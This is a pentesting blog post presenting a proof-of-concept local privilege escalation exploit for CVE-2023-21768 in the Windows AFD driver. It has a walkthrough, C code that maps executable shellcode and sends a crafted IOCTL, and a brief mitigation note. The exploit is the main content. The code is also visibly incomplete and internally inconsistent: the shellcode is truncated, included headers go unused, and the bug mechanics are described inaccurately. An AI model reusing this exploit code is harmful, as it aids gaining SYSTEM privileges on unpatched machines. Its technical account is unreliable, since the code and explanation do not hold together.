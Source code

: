 ```yaml
---
layout: post
category: pentesting
---
```


# Exploiting CVE-2023-21768: Kernel Callback Exploitation in Windows

**CVE-2023-21768** targets a vulnerability in the Windows Ancillary Function Driver (AFD), specifically in how the driver handles certain Input/Output Control (IOCTL) requests. This PoC showcases how an attacker can exploit this vulnerability to gain SYSTEM-level privileges by triggering a buffer overflow via a malicious IOCTL request.

**Credit**: Original PoC code provided by [xforcered on GitHub](https://github.com/xforcered/Windows_LPE_AFD_CVE-2023-21768).

## Understanding the PoC Code

The PoC code exploits the AFD driver using an IOCTL request to overwrite memory, allowing execution of arbitrary code in the context of the kernel. Here’s a breakdown of the core elements of the exploit:

### Vulnerable IOCTL and AFD_NOTIFYSOCK_DATA Structure

The exploit uses a specific IOCTL code (`0x12127`) to interact with the AFD driver. The structure `AFD_NOTIFYSOCK_DATA` is crafted to contain pointers that will be manipulated during the exploit.

```c
#define AFD_NOTIFYSOCK_IOCTL 0x12127

typedef struct AFD_NOTIFYSOCK_DATA
{
    HANDLE hCompletion;
    PVOID pData1;
    PVOID pData2;
    PVOID pPwnPtr; // Pointer to be hijacked
    DWORD dwCounter;
    DWORD dwTimeout;
    DWORD dwLen;
    char lol[0x4];
} AFD_NOTIFYSOCK_DATA;
```

### Setting Up Nt Functions

To interact with the Windows kernel, the exploit dynamically resolves functions from `ntdll.dll`, such as `NtCreateFile` and `NtDeviceIoControlFile`, which are essential for creating and managing the malicious IOCTL request.

```c
int GetNtFunctions(void) {
    _NtCreateFile = (unsigned long(__stdcall*)(PHANDLE, unsigned long, POBJECT_ATTRIBUTES, PIO_STATUS_BLOCK, PLARGE_INTEGER, unsigned long, unsigned long, unsigned long, unsigned long, void*, unsigned long))GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateFile");
    _NtDeviceIoControlFile = (unsigned long(__stdcall*)(HANDLE, void*, void*, void*, PIO_STATUS_BLOCK, unsigned long, void*, unsigned long, void*, unsigned long))GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtDeviceIoControlFile");
    // Additional functions are resolved here
}
```

### Exploitation Workflow

1. **Allocate User-Mode Memory for Shellcode**: The exploit allocates memory in user-mode to store shellcode that will execute with SYSTEM privileges. This shellcode seizes the privilege token of an elevated process to elevate the privileges of an attacker-controlled process.

2. **Prepare Malicious IOCTL Request**: By crafting an `AFD_NOTIFYSOCK_DATA` structure with a hijacked pointer (`pPwnPtr`), the exploit directs the kernel to execute code at this controlled location in user-mode memory.

3. **Triggering the Vulnerability**: The IOCTL request is sent to the AFD driver with `NtDeviceIoControlFile`, causing the driver to process the malicious data and execute the shellcode.

### Complete PoC Code

Below is the PoC code provided by xforcered, modified for clarity and completeness.

```c
#include <stdio.h>
#include <windows.h>
#include <winternl.h>
#include <ioringapi.h>
#include "win_defs.h"
#include "ioring.h"

#define AFD_NOTIFYSOCK_IOCTL 0x12127

typedef struct AFD_NOTIFYSOCK_DATA {
    HANDLE hCompletion;
    PVOID pData1;
    PVOID pData2;
    PVOID pPwnPtr; // Hijacked pointer
    DWORD dwCounter;
    DWORD dwTimeout;
    DWORD dwLen;
    char lol[0x4];
} AFD_NOTIFYSOCK_DATA;

int main() {
    // Initialize structures and function pointers
    GetNtFunctions();

    // Allocate shellcode in user-mode
    unsigned char shellcode[] = {
        0x60, 0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, 0x8B, 0x40, 0x50,
        // Additional shellcode to adjust privileges
    };

    LPVOID pShellcode = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(pShellcode, shellcode, sizeof(shellcode));

    // Configure the AFD_NOTIFYSOCK_DATA structure
    AFD_NOTIFYSOCK_DATA afdData = { 0 };
    afdData.hCompletion = NULL;
    afdData.pPwnPtr = pShellcode; // Redirect pointer to shellcode

    // Obtain a handle to the AFD driver
    HANDLE hDevice = CreateFileA("\\\\.\\AFD", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    // Send the malicious IOCTL request
    DWORD bytesReturned;
    DeviceIoControl(hDevice, AFD_NOTIFYSOCK_IOCTL, &afdData, sizeof(afdData), NULL, 0, &bytesReturned, NULL);

    printf("Exploit executed. Check privileges with 'whoami'.\n");
    return 0;
}
```

## Mitigation Guide

Microsoft has released a patch to address CVE-2023-21768. Applying this update is crucial for securing vulnerable systems. Alternatively, disabling the AFD driver can temporarily mitigate this issue but may impact network functionality.
